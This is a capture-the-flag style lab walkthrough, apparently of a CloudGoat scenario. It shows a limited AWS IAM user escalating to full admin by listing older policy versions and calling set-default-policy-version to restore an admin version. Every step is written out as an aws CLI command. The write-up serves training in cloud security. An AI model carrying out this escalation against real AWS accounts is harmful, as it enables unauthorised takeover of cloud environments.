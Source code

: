 # Scenario overview

So we start off with the Raynor IAM profile which we’ll check in a moment has limited permissions.

We’ll then review the previous versions of that same user’s IAM policies, and we’ll use the SetDefaultPolicyVersion action to restore a full admin policy version.


![image](https://github.com/user-attachments/assets/3a851e5d-8810-44af-aef1-910713cb5a51)

# Permissions

First things first, we need to check our current permissions for the user Raynor.

**aws iam list-attached-user-policies --user-name raynor-iam_privesc_by_rollback_cgidky1t7bwmv8 --profile raynor**

Ok so now that we see that attached policy of the user, we need to see what permissions this policy grants us.

![image](https://github.com/user-attachments/assets/7bfb25f6-9021-4bfb-8003-554d8810c762)

Using the following command we can enumerate the permissions **aws iam get-policy --policy-arn arn:aws:iam::272281913033:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidky1t7bwmv8**

![image](https://github.com/user-attachments/assets/dff4eb83-745e-48a7-96c3-45655cea8430)

We get back a useful piece of information with the DefaultVersionId because it tells us that our current default policy version id is v1.

Now we will enumerate the version number of the policy to get more information.

# Escalation

**aws iam get-policy-version --policy-arn arn:aws:iam::272281913033:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidky1t7bwmv8 --version-id v1 --profile raynor**

![image](https://github.com/user-attachments/assets/e7330369-426d-47c3-a93f-3c892eb983e2)

We can see that we have limited access. Now let’s check to see if we have more versions available than just v1.

This command will return all the versions we have access to



**aws iam list-policy-versions --policy-arn arn:aws:iam::272281913033:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidky1t7bwmv8 --profile raynor**

Knowing this, we can now try to list the IAM policies for those version to see if they have higher privileges, starting with v5

**aws iam get-policy-version --policy-arn arn:aws:iam::272281913033:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidky1t7bwmv8 --version-id v5 --profile raynor**

Right away, we can see that this policy version has full admin privileges

![image](https://github.com/user-attachments/assets/1b7ede35-5d7e-4347-b379-3d6ea09a16ff)

If we look back at the policy we have currently applied to our user, we see that we have access to iam:SetDefaultPolicyVersion, so instead, we can try to change our default policy version to this version 2 with the following command:

**aws iam set-default-policy-version --policy-arn arn:aws:iam::272281913033:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidky1t7bwmv8 --version-id v5 --profile raynor**

If we re-run this prior command:

**aws iam get-policy --policy-arn arn:aws:iam::272281913033:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidky1t7bwmv8 --profile raynor**

We’ll see that we successfully changed our policy version from v1 to v5 and now are admin!

![image](https://github.com/user-attachments/assets/924edbe6-f7c5-4c03-ac99-fd4a8f535a4f)

